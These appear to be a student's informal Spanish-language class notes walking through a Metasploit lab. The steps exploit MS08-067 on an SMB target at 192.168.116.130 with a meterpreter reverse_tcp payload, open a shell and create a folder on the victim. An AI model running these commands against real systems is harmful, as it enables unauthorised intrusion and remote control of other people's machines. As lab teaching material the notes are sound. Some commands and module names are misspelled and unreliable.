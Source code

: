 El Core de Nexus es bastante bueno pero 

ENtonces de la sesión pasada

Se llama exploit porque explota una mala implementación.


Entonces vamos a explorar:

`cd usr/share/metasploit-framework`

Acá pues los verdecitos son binarios, tiene una API abierta con el `msfd` (daemon)


Entonces hacemos `sudo msfdb init` entonces iniciamos los indices de las bases de datos, lo azulito está en directorios, en posts hay recientes, en nops son tecnicas de evasio´n.

Pero si accede a `modules/exploits/windows` entonces de lo que habíamos descubierto antes es que el SMB nos había servido y, si miramos las opciones que tenemos justamente está el SMB.

Entonces al acceder a los `/smb` y hace `la|more` y encuentra que hay uno que coincide con el 08_067 de la sesión pasada

entonces si abre uno hace `vi smb_08_068_metaapi.rb` o algo así y entonce le sale .

Entonces la dirección de retorno es ese número y la scratch es a dónde lo va a  mandar, el payload, si es un SP (Service Pack) según la versión va cambiando


Entonces lo primero fue `sudo msfdb init` porque eso está en un repo postgresql

Entonces `sudo service postgresql start` y así se inicializa, si mira `ps -ef|grep postgre`

Ebtonces `sudo msfconsole`

Entonces seleccionamos el exploit que medio identificamos, entonces hacemos
`uso exploit/` porque auxiliamos otras tecnicas de evasión desde allí, continuamos con `use exploit/windows/smb/ms08_067_netapi` o [TAB] en un punto y si miraos entonces hacemos:

`show options` y con esto tenemos las opciones para parametrizar un exploit, como este se aprovecha de un fallo remoto del servicio SMB por el puerto 445, entonces acá tiene unos parámetros, en otro pues tendrá otros, podemos preguntar a la IA para saber parametrizar, pero también podemos buscar la documentación de rapid7 (sitio oficial) y buscamos el exploit. En el canal de securityTube podemos aprender!

Entonces los parametros dicen:
- RHOST: 
  
Entonces ponemos `set rhost 192.168.116.130` 
Hacemos `show options` y vemos que quedó seteado el host remoto (verificamos conectividad capa 3 si no pues no hacemos nada y nos responde el ping `ping 192.168.116.130`) en esta versión nos pone el LHOST, que somos nosotros (192.168.116.128) pero si no está se pone, pero el chiste es que uno es ayudado por la comunidad.
Hacemos un `show payloads` y hay un montón, los "VNC" es que si ejecutan satisfactoriamente pueden traer la interfaz a travez de un "Virtual Remote Console"

Entonces hacemos un `set payload windows/meterpreter/reverse_tcp` este reverse lo que hace es una conexión inversa que utiliza otros puertos, hace una conexión inversa entre cliente y atacante, digamos entre el 444 y 445, el atacante es el cliente, el cliente la víctima.

Entonces dejó más cosas como el EXITFUNC en modo HILO, LHOST soy yo, el LPORT es 4444 para hacer el reverso con la víctima y ser como escucha como atacante y dejar el paso de mensaje. El automatica Targeting en 0, porque hace detección automática.


Entonces le lanzamos la metralleta con `exploit` o `run`, y empieza, intenta un handler del 444 al 445 y dice la maquinita de la persona, que seleccionó el service pack en ingles y luego dice que abrió una sesión de meterpreter desde el :4444 hasta la máquina :1045 que es un puerto que abrió en la víctima, si pone `help` muestra comandos para mirar qué puede hacer

entonces por ejemplo en el meterpreter hacemos una `shell` y con ello nos mostrará las especificaciones de la maquinita

Entonces hacemos un `cd \` para ir a la raiz, y si puede hacer un `mkdir HACK4March2025` y si puede crearla pues eso, literalmente todo access

Entonces por ejemplo desde el msf6 exploit puede configurarse para que cambiando el payload pues le abra de una la shell.


Otros comandos por ejemplo para mirar desde el kali son `ls la|grep smb`


Como punto cero entregar lo que hicimos con el CVS Calculator

VIsitar el sitio de `https://docs.metasploit.com/`